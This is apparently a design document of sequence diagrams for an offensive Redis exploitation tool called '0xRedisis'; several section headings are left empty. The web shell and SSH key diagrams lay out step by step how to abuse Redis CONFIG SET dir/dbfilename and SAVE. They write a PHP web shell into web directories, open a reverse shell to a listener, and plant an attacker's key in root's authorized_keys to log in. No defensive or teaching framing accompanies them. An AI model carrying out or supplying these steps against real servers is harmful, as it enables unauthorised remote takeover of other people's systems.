





# Sequence Diagrams - 0xRedisis Redis Exploitation Tool

## 1. Application Startup and Connection



## 2. Basic Reconnaissance Flow



## 3. Web Shell Injection Sequence

```mermaid
sequenceDiagram
    participant U as User
    participant W as WebShell Module
    participant C as Redis Client
    participant RS as Redis Server
    participant L as Listener
    participant FS as File System
    
    U->>W: Select web shell injection
    W->>U: Display shell options
    U->>W: Choose shell type and directory
    
    W->>W: Generate PHP payload
    W->>W: Detect web-accessible paths
    
    loop For each potential directory
        W->>C: SendCommand("CONFIG", "SET", "dir", directory)
        C->>RS: CONFIG SET dir <path>
        
        alt Directory writable
            RS->>C: +OK
            W->>C: SendCommand("CONFIG", "SET", "dbfilename", "shell.php")
            C->>RS: CONFIG SET dbfilename shell.php
            RS->>C: +OK
            
            W->>C: SendCommand("SET", "webshell", payload)
            C->>RS: SET webshell <php_code>
            RS->>C: +OK
            
            W->>C: SendCommand("SAVE")
            C->>RS: SAVE command
            
            alt Save successful
                RS->>C: +OK
                RS->>FS: Write shell.php to directory
                W->>W: Verify shell accessibility
                
                opt Reverse Shell Requested
                    W->>L: StartListener(port)
                    L->>L: Bind to port and listen
                    W->>W: Generate reverse shell payload
                    W->>C: SendCommand("SET", "reverse", reverse_payload)
                    C->>RS: SET reverse <reverse_shell>
                    W->>C: SendCommand("SAVE")
                    C->>RS: SAVE command
                    RS->>FS: Write reverse shell
                    
                    Note over L: Waiting for connection...
                    FS->>L: Incoming reverse connection
                    L->>U: Shell session established
                end
                
                W->>U: Web shell deployed successfully
                break
            else Save failed
                RS->>C: -ERR
                W->>W: Try next directory
            end
        else Directory not writable
            RS->>C: -ERR
            W->>W: Try next directory
        end
    end
    
    W->>U: Return results
```

## 4. SSH Key Injection Flow

```mermaid
sequenceDiagram
    participant U as User
    participant S as SSH Module  
    participant C as Redis Client
    participant RS as Redis Server
    participant K as Key Generator
    participant FS as Target File System
    
    U->>S: Select SSH key injection
    S->>K: Generate RSA key pair
    K->>K: Create 2048-bit RSA keys
    K->>S: Return public/private keys
    
    S->>U: Display key information
    S->>S: Prepare authorized_keys content
    
    loop For each potential SSH path
        Note over S: Trying /root/.ssh/authorized_keys, /home/*/.ssh/authorized_keys
        
        S->>C: SendCommand("CONFIG", "SET", "dir", ssh_directory)
        C->>RS: CONFIG SET dir <ssh_path>
        
        alt Directory accessible
            RS->>C: +OK
            S->>C: SendCommand("CONFIG", "SET", "dbfilename", "authorized_keys")
            C->>RS: CONFIG SET dbfilename authorized_keys
            RS->>C: +OK
            
            opt Backup existing keys
                S->>C: SendCommand("SET", "backup", "")
                S->>C: SendCommand("SAVE")
                C->>RS: SAVE (create backup)
            end
            
            S->>C: SendCommand("SET", "sshkey", public_key)
            C->>RS: SET sshkey <public_key>
            RS->>C: +OK
            
            S->>C: SendCommand("SAVE")
            C->>RS: SAVE command
            
            alt Save successful
                RS->>C: +OK
                RS->>FS: Write authorized_keys
                
                S->>S: Set file permissions (chmod 600)
                S->>C: SendCommand("EVAL", chmod_lua_script)
                C->>RS: EVAL script for chmod
                RS->>FS: Change file permissions
                
                S->>S: Test SSH connection
                S->>FS: ssh -i private_key user@host
                
                alt SSH connection successful
                    FS->>S: SSH session established
                    S->>U: SSH key injection successful
                    break
                else SSH connection failed
                    S->>S: Try next path
                end
            else Save failed
                RS->>C: -ERR
                S->>S: Try next path
            end
        else Directory not accessible
            RS->>C: -ERR  
            S->>S: Try next path
        end
    end
    
    S->>U: Return injection results
```

## 5. Lua Script Exploitation Flow



## 6. Smart Data Exfiltration Sequence



## 7. Automated Chain Execution Flow



## 8. Error Handling and Recovery Flow

```mermaid
sequenceDiagram
    participant U as User
    participant App as Application
    participant C as Redis Client
    participant RS as Redis Server
    participant EH as Error Handler
    participant Log as Logger
    
    App->>C: Execute operation
    C->>RS: Send Redis command
    
    alt Connection Lost
        RS-->>C: Connection timeout/reset
        C->>EH: Connection error
        EH->>Log: Log connection failure
        EH->>EH: Attempt reconnection
        
        loop Retry attempts (max 3)
            EH->>C: Reconnect attempt
            C->>RS: New connection
            
            alt Reconnection successful
                RS->>C: Connection established
                C->>EH: Connection restored
                EH->>App: Retry original operation
                break
            else Reconnection failed
                RS-->>C: Connection failed
                EH->>EH: Wait and retry
            end
        end
        
        alt All retries failed
            EH->>App: Connection permanently failed
            App->>U: Display connection error
            App->>App: Graceful shutdown
        end
        
    else Authentication Error
        RS->>C: -NOAUTH Authentication required
        C->>EH: Authentication error
        EH->>Log: Log auth failure
        EH->>U: Prompt for credentials
        U->>EH: Provide password
        EH->>C: Retry with new credentials
        C->>RS: AUTH <new_password>
        
        alt Auth successful
            RS->>C: +OK
            C->>App: Authentication restored
            App->>App: Continue operation
        else Auth failed again
            RS->>C: -ERR invalid password
            C->>EH: Auth failed
            EH->>App: Authentication permanently failed
            App->>U: Display auth error and exit
        end
        
    else Command Error
        RS->>C: -ERR unknown command or syntax error
        C->>EH: Command error
        EH->>Log: Log command failure
        
        alt Recoverable error
            EH->>App: Command failed, try alternative
            App->>App: Use fallback method
        else Fatal error
            EH->>App: Unrecoverable command error
            App->>U: Display error message
            App->>App: Skip operation
        end
        
    else Resource Exhaustion
        RS->>C: -ERR OOM command not allowed
        C->>EH: Resource error
        EH->>Log: Log resource issue
        EH->>App: Resource exhaustion detected
        App->>App: Reduce operation scope
        App->>C: Retry with smaller dataset
        
    else Normal Operation
        RS->>C: +OK or data response
        C->>App: Successful result
        App->>U: Display operation result
    end
```

This comprehensive set of sequence diagrams covers all major operational flows in the 0xRedisis tool, showing the detailed interactions between components, error handling, and the complete user experience from startup to completion.